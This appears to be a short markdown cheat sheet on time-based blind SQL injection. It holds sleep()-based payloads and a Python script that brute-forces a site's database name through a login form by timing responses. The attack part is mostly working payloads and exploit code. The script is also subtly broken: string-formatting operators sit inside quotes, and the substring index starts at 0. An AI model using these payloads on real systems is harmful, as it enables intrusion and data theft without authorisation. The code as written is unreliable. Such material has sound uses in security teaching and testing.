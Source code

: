 ## Error Based


## Time Based 

We can make sleep the sql function in order to guess if the page is not displaying anything.

For example:
```sql
... 'admin' and sleep(5) --If the user is correct it will wait 5 sec 
... AND if(substr(database(),1,1)='c', sleep(5),1); --
```

We can make a Python Script:
```python
#!/usr/bin/python3

import requests, time, sys, signal
from pwn import *

url = '[your-url]'
s = '0123456789abcdefghijklmnopqrstuvwxyz'
result = ''

def def_handler(sig, frame):
	log.failure("Exiting")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


def check(payload):
	data_post = {
		'username' : '%s' % payload,
		'password' : 'test'
	}

	time_start = time.time()
	content = requests.post(url, data=data_post)
	time_end = time.time()

	if (time_end - time_start > 5):
		return 1

p1 = log.progress('Database')
p2 = log.progress('Payload')

for i in range(0,10):
	for c in s:
		payload = "' OR if(substr(database(),%d,1)='%c', sleep(5),1); -- - % (i, c)"
		p2.status("%s" % payload)
		
		if check(payload):
			result += c
			p1.status("%s % result")
			break

log.info("Database: %s" % result)
```
